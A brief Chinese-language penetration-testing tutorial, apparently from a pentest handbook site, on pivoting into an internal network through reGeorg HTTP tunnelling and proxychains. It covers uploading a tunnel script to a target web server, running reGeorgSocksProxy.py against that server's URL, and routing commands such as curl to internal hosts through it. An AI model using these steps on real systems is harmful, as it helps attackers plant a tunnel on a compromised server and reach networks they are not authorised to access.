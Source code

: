 # reGeorg 结合 proxychains 代理链(HTTP 隧道)

> 原文：[http://book.iwonder.run/内网渗透/内网穿透/reGeorg/1.html](http://book.iwonder.run/内网渗透/内网穿透/reGeorg/1.html)

reGeory 适用于公网服务器只开放了 80 端口的情况。

reGeorg 是用 python 写的利用 Web 进行代理的工具，流量只通过 http 传输，也就是 http 隧道。

```
reGeorg 下载 https://github.com/sensepost/reGeorg 
```

![image](img/803e0d3d4b0803b29d58261581e42353.png) ![image](img/42b8a6981a980666a1b304d58856b045.png)

上传对应语言版本的 tunnel 文件到服务器上。然后本地访问上传的源文件，即可在本地与远程主机上形成一个 http 的回路。命令如下：

```
python reGeorgSocksProxy.py -p 6666 -u http://目标站点/xxx.jsp //端口随便指定，只要不与本机开放端口冲突即可 
```

然后配置 proxychains 代理链的配置文件/etc/proxychains.conf ，将代理设置成本机的 1080 端口：

```
socks5 127.0.0.1 1080 
```

然后命令前面加上 proxychains 即可。如：

```
proxychains curl 192.168.10.19 
```

所以我们流量的走向是： 流量->本地 1080 端口->web 服务器的 80 端口(通过我们上传的 php 文件进行流量转发)->内网服务器->web 服务器的 80 端口->本地 1080 端口

